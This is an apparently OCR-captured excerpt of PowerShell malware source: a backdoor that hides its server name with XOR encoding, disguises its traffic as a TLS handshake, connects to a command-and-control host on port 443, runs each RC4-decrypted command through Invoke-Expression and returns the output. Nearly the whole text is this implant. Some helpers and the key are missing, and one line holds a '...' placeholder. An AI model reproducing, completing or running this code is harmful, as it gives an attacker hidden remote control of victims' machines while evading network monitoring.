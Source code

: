 ```
    $encData = RC4-Transform -key $key -data $dataBytes + @(0x02,0x04,0x06,0x08)
    $lenBytes = [BitConverter]::GetBytes([int16]$encData.Length)
    [Array]::Reverse($lenBytes)
    return @(0x17, 0x03, 0x03) + $lenBytes + $encData
}

# Build initial ClientHello (TLS spoof)
function Build-ClientHello {
    $host = Decrypt-XOR @(168,187,172,183,184,167,240,186,171,169,176,177,176,186,187,172,240,189,177,179) 222
    $hostBytes = [System.Text.Encoding]::ASCII.GetBytes($host)
    $hostLen = [BitConverter]::GetBytes([UInt16]$hostBytes.Length)
    [Array]::Reverse($hostLen)
    $payload = @(0x00) + $hostLen + $hostBytes
    $length = [BitConverter]::GetBytes([UInt16]$payload.Length)
    [Array]::Reverse($length)
    $finalPayload = @(0x00,0x00) + $length + $payload

    # + huge TLS extensions block omitted for brevity
    # Return the whole thing (mimics TLS ClientHello)
    return ,@(0x16,0x03,0x01) + ... + $finalPayload  # Real code builds this
}

# Connect to C2
$host = Decrypt-XOR @(5,7,25,2,25,3,15,25,5,7,7) 55  # "c2.l33t.io"
$port = 443
$tcpClient = New-Object System.Net.Sockets.TcpClient
$tcpClient.Connect($host, $port)
$stream = $tcpClient.GetStream()

# Send handshake
$hello = Build-ClientHello
$stream.Write($hello, 0, $hello.Length)

# Read dummy response
$buffer = New-Object byte[] 16384
$stream.Read($buffer, 0, $buffer.Length) | Out-Null

# Command loop
while ($true) {
    $buffer = New-Object byte[] 16384
    try {
        $bytesRead = $stream.Read($buffer, 0, 16384)
    } catch {
        break
    }
    $data = $buffer[5..($bytesRead - 1)]
    $decrypted = RC4-Transform -key $key -data $data
    $command = [System.Text.Encoding]::UTF8.GetString($decrypted)

    if ($command -eq "exit") { break }

    try {
        $output = (Invoke-Expression $command 2>&1) | Out-String
    } catch {
        $output = "Error"
    }

    $packet = Build-Packet -data $output.Trim()
    $stream.Write($packet, 0, $packet.Length)
}

$stream.Close()
```